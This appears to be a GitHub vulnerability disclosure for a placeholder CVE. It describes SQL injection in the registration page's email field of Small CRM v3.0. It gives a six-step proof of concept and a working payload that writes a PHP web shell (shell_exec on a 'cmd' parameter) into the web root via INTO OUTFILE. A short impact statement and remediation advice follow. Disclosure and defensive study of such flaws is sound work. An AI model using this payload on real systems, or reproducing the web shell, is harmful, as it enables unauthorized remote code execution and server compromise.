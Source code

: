 # CVE-2024-xxxx
# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE). This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
2. Fill out all the fields and intercept the request.
3. Send the intercepted request to the repeater and drop it.
4. Inject a SQL injection payload into the email field, observing its execution.
5. Modify the payload to create a webshell on the server and utilize it to generate the file.
6. Access the URL associated with the generated file, triggering its execution.

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots (Placeholders)
![Affected Code](code.png)
![Intercepted Request](reg_req.png)
![Payload Execution](sqli_payload.png)
![RCE](rce.png)
